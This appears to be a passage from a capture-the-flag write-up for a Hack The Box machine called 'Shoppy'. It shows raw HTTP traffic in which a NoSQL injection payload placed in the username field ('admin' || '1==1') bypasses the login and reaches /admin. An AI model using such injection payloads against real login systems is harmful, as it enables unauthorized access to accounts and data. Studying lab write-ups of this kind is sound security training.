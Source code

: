 ```http
HTTP/1.1 302 Found
Server: nginx/1.23.1
Date: Sun, 09 Oct 2022 21:20:42 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 102
Connection: close
Location: /login?error=WrongCredentials
Vary: Accept

<p>Found. Redirecting to <a href="/login?error=WrongCredentials">/login?error=WrongCredentials</a></p>
```

I tried SQL Injection and NoSQL Injection. The site seemed to crash when sending a single `'`. After trying lots of different payloads I found, I finally got one that worked.

```http
POST /login HTTP/1.1
Host: shoppy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 56
Origin: http://shoppy.htb
Connection: close
Referer: http://shoppy.htb/login
Cookie: rl_user_id=RudderEncrypt%3AU2FsdGVkX1%2BqJZWhUg9rHPJESKYav%2BTYIw0yPamDLm1FVV%2F6zyigcmcZZZcT6%2Bdh; rl_anonymous_id=RudderEncrypt%3AU2FsdGVkX18s3Kpqv13Qh3uXi%2F%2BTC1wmF%2F0fD6vRkOSDJkA4IUAGThTOALuvYKFBzL8Fvm2%2FipaMY0JC3slMDQ%3D%3D; rl_group_id=RudderEncrypt%3AU2FsdGVkX19o9wvZuqv6DsPRAhV9vRUXTM8HAo6pqjw%3D; rl_trait=RudderEncrypt%3AU2FsdGVkX19fWE8xwhkhWoweKa%2FWuKV%2Bt8u9%2F%2FUFCfA%3D; rl_group_trait=RudderEncrypt%3AU2FsdGVkX19Ti1qyYZZAQa2C%2Bu5qCnwv%2BXwPN5vEpKY%3D
Upgrade-Insecure-Requests: 1

{
	"username":"admin' || '1==1",
	"password":"aaa"
}
```

```http
HTTP/1.1 302 Found
Server: nginx/1.23.1
Date: Sun, 09 Oct 2022 21:25:22 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: close
Location: /admin
Vary: Accept
Set-Cookie: connect.sid=s%3AmNKTxh7ftyqhqdj5A07TAa2X-KIG_5wR.yESFg91bOC3floCU0ms6KxxVpL8BBmtVTEweVGbmr0w; Path=/; HttpOnly

<p>Found. Redirecting to <a href="/admin">/admin</a></p>
```

